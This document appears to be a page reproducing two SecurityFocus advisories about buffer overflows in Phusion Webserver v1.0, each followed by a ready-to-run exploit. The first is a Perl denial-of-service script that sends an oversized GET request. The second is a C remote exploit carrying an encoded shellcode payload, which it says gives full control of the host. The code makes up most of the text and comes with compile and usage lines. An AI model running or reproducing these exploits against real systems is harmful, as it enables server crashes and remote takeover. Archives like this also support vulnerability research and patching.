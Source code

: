 INFO1
-----

    source: http://www.securityfocus.com/bid/4118/info

    Phusion Webserver is a commercial HTTP server that runs on Microsoft Windows 9x/NT/2000 operating systems.

    It is possible for a remote attacker to deny service to legitimate users of the service by submitting an excessively long web request (approximately 3000+ bytes).

    It should be noted that this issue is due to a remotely exploitable buffer overflow condition.

    #!/usr/bin/perl
    #
    # Simple script to send a long 'A^s' command to the server,
    # resulting in the server crashing.
    #
    # Phusion Webserver v1.0 proof-of-concept exploit.
    # By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    # G.Maggiotti & H.Oliveira.
    #
    #
    # Usage: perl -x Phusion_DoS.pl -s <server>
    #
    # Example:
    #
    # perl -x Phusion_DoS.pl -s 10.0.0.1
    #
    # Crash was successful !
    #

    use Getopt::Std;
    use IO::Socket;

    print("\nPhusion Webserver v1.0 DoS exploit (c)2002.\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");

    getopts('s:', \%args);
    if(!defined($args{s})){&usage;}

    ($serv,$port,$def,$num,$data,$buf,$in_addr,$paddr,$proto);

    $def = "A";
    $num = "3000";
    $data .= $def x $num;
    $serv = $args{s};
    $port = 80;
    $buf = "GET /cgi-bin/$data /HTTP/1.0\r\n\r\n";


    $in_addr = (gethostbyname($serv))[4] || die("Error: $!\n");
    $paddr = sockaddr_in($port, $in_addr) || die ("Error: $!\n");
    $proto = getprotobyname('tcp') || die("Error: $!\n");

    socket(S, PF_INET, SOCK_STREAM, $proto) || die("Error: $!");
    connect(S, $paddr) ||die ("Error: $!");
    select(S); $| = 1; select(STDOUT);
    print S "$buf";


    print("\nCrash was successful !\n\n");

    sub usage {die("\n\nUsage: perl -x $0 -s <server>\n\n");}

INFO2
-----

    source: http://www.securityfocus.com/bid/4119/info

    Phusion Webserver is a commercial HTTP server that runs on Microsoft Windows 9x/NT/2000 operating systems.

    Phusion Webserver does not perform sufficient bounds checking of externally supplied data. As a result, it is possible for a remote attacker to submit an excessively long web request which may cause stack variables to be overwritten with attacker-supplied instructions.

    As webservers normally run with SYSTEM privileges on Microsoft Windows operating systems, this may result in a full compromise of a host running the vulnerable software.

    It should be noted that this unchecked buffer may also be exploited to cause a denial of service condition.

    /** Phusion-Overun.c
    ** -Remote exploit for Phusion Webserver v1.0 for WinNT.
    **
    ** Phusion Webserver v1.0 exploit gets remote servers's full control.
    ** When you attacks a vulnerable server you can run abitrary code
    ** inside.
    **
    ** Phusion Webserver v1.0 proof-of-concept exploit.
    ** By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    **
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    ** G.Maggiotti & H.Oliveira.
    **
    **
    ** Compile: gcc -o Phusion-ovrun Phusion-ovrun.c
    **
    ** Usage: ./Phusion-ovrun <hostname>
    **
    **
    **
    **
    **/


    #include <stdio.h>
    #include <unistd.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <sys/errno.h>
    #include <netdb.h>

    #define _PORT   80
    #define _X 10000

    char runcrash[] =
    "GET /"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x81\xc7\xc8\x10\x10\x10\x81\xef\x10"
    "\x10\x10\x10\x57\x5e\x33\xc0\x66\xb8\x31\x02\x90\x90\x50"
    "\x59\xac\x34\x99\xaa\xe2\xfa\x71\x99\x99\x99\x99\xc4\x18"
    "\x74\xb1\x89\xd9\x99\xf3\x99\xf1\x19\x99\x99\x99\xf3\x9b"
    "\xf3\x99\xf3\x99\xf1\x99\x99\x99\xd9\x14\x2c\xac\x8b\xd9"
    "\x99\xcf\xf1\x19\x02\xd4\x99\xc3\x66\x8b\xc9\xc2\xf3\x99"
    "\x14\x24\x3a\x89\xd9\x99\xaa\x59\x32\x14\x2c\x3a\x89\xd9"
    "\x99\xcf\xf1\xd3\x98\x99\x99\x09\x14\x2c\x72\x89\xd9\x99"
    "\xcf\xca\xf1\x49\x05\xd4\x99\xc3\x66\x8b\xca\xf1\x05\x02"
    "\xd4\x99\xc3\x66\x8b\xf1\xa9\xd4\xde\x99\xc6\x14\x2c\x3e"
    "\x89\xd9\x99\xf3\xdd\x09\x09\x09\x09\xc0\x35\x33\x7b\x65"
    "\xf3\x99\x23\x31\x02\xd4\x99\x66\x8b\x99\x99\x99\x99\xca"
    "\xfc\xeb\xef\xfc\xeb\xb9\xf1\xf8\xfa\xf2\xfc\xfd\xb7\xa5"
    "\xb6\xf1\xab\xa7\xf1\xed\xed\xe9\xa3\xb6\xb6\xee\xee\xee"
    "\xb7\xfd\xfc\xfc\xe9\xe3\xf6\xf7\xfc\xb7\xf6\xeb\xfe\xb9"
    "\xb9\xca\xe9\xf5\xf6\xf0\xed\xb9\xfa\xf6\xfd\xfc\xfd\xb9"
    "\xfb\xe0\xb9\xe5\xc3\xf8\xf7\xb9\xe4\xa3\xb0\xa5\xf1\xed"
    "\xf4\xf5\xa7\xa5\xf1\xfc\xf8\xfd\xa7\xa5\xed\xf0\xed\xf5"
    "\xfc\xa7\xca\xfc\xeb\xef\xfc\xeb\xb9\xf1\xf8\xfa\xf2\xfc"
    "\xfd\xb7\xa5\xb6\xed\xf0\xed\xf5\xfc\xa7\xa5\xb6\xf1\xfc"
    "\xf8\xfd\xa7\xa5\xfb\xf6\xfd\xe0\xa7\xa5\xfa\xfc\xf7\xed"
    "\xfc\xeb\xa7\xd1\xfc\xf5\xf5\xf6\xb7\xb9\xc0\xf6\xec\xb9"
    "\xf8\xeb\xfc\xb9\xeb\xec\xf7\xf7\xf0\xf7\xfe\xb9\xf8\xb9"
    "\xc3\xdb\xca\xfc\xeb\xef\xfc\xeb\xb9\xc9\xcb\xd6\xea\xb9"
    "\xfb\xec\xfe\xfe\xe0\xb9\xef\xfc\xeb\xea\xf0\xf6\xf7\xb9"
    "\xf8\xf7\xfd\xb9\xe0\xf6\xec\xb9\xf1\xf8\xef\xfc\xb9\xfb"
    "\xfc\xfc\xf7\xb9\xf8\xfb\xec\xea\xfc\xfd\xb7\xa5\xe9\xa7"
    "\xd4\xf6\xeb\xfc\xb9\xf0\xf7\xff\xf6\xeb\xf4\xf8\xed\xf0"
    "\xf6\xf7\xb9\xfa\xf8\xf7\xb9\xfb\xfc\xb9\xfd\xf6\xee\xf7"
    "\xf5\xf6\xf8\xfd\xb9\xff\xeb\xf6\xf4\xb9\xf1\xed\xed\xe9"
    "\xa3\xb6\xb6\xee\xee\xee\xb7\xfd\xfc\xfc\xe9\xe3\xf6\xf7"
    "\xfc\xb7\xf6\xeb\xfe\xb9\xf6\xeb\xb9\xf1\xed\xed\xe9\xa3"
    "\xb6\xb6\xf4\xf8\xeb\xfc\xf8\xea\xef\xf0\xef\xf8\xea\xb7"
    "\xfa\xf3\xfb\xb7\xf7\xfc\xed\xa5\xe9\xa7\xeb\xfc\xfe\xf8"
    "\xeb\xfd\xea\xb9\xed\xf6\xb9\xdd\xfc\xfc\xe9\xc3\xf6\xf7"
    "\xfc\xb9\xfa\xeb\xfc\xee\xb9\xb1\xcd\xf1\xfc\xce\xf0\xe3"
    "\xf8\xeb\xfd\xb5\xb9\xd8\xf7\xec\xea\xf2\xf8\xb9\xf8\xf7"
    "\xfd\xb9\xd7\xfc\xf4\xf6\xb0\xa5\xe9\xa7\xda\xf6\xfd\xfc"
    "\xfd\xb9\xfb\xe0\xb9\xe5\xc3\xf8\xf7\xb7\xa5\xb6\xfa\xfc"
    "\xf7\xed\xfc\xeb\xa7\xa5\xb6\xfb\xf6\xfd\xe0\xa7\xa5\xb6"
    "\xf1\xed\xf4\xf5\xa7\xb7\xc5\xf1\xed\xf4\xf5\xc5\xca\xfc"
    "\xeb\xef\xfc\xeb\xd8\xfb\xec\xea\xfc\xfd\xfb\xe0\xf0\xc3"
    "\xf8\xf7\xb7\xf1\xed\xf4\xf5\x99\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\xac\xe0\xe3\x01";


    int     sock;
    struct  sockaddr_in sock_a;
    struct  hostent *host;

    int main (int argc, char *argv[]) {

    printf("\nWinNT 4.0 sp5 Phusion Webserver v1.0 BufferOverrun exploit\n");
    printf("Alex Hernandez al3xhernandez@ureach.com\n\n");

    if(argc < 2) {
       fprintf(stderr, "Error : Usage: %s <hostname> \n", argv[0]);
       exit(0);
      }


    if((host=(struct hostent *)gethostbyname(argv[1])) == NULL) {
        perror("gethostbyname");
        exit(-1);
      }

    if((sock=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP))<0) {
        perror("create socket");
        exit(-1);
      }

    sock_a.sin_family=AF_INET;
    sock_a.sin_port=htons(_PORT);
    memcpy((char *)&sock_a.sin_addr,(char *)host->h_addr,host->h_length);
    if(connect(sock,(struct sockaddr *)&sock_a,sizeof(sock_a))!=0) {
        perror("create connect");
        exit(-1);
      }

      fflush(stdout);

      write(sock,runcrash,_X);
      write(sock,"\n\n", 2);
      printf("done.\n\n");

    }